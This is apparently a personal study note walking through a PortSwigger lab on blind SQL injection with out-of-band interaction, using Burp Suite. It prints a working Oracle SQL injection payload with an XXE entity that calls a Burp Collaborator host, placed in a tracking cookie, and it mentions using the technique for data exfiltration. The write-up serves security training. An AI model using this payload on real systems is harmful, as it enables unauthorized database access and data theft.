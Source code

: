 ```yaml
---
{"dg-publish":true,"permalink":"/src/site/notes/src/site/notes/src/site/notes/src/site/notes/main/cs/ps-wsa-labs/sq-li/blind-sq-li-with-out-of-band-interaction/"}
---
```







- The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
2. Modify the `TrackingId` cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic [XXE](https://portswigger.net/web-security/xxe) techniques as follows:`TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`
3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified `TrackingId` cookie.

The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to verify that your payload had indeed triggered a DNS lookup and potentially exploit this behavior to exfiltrate sensitive data from the application. We'll go over this technique in the next lab.
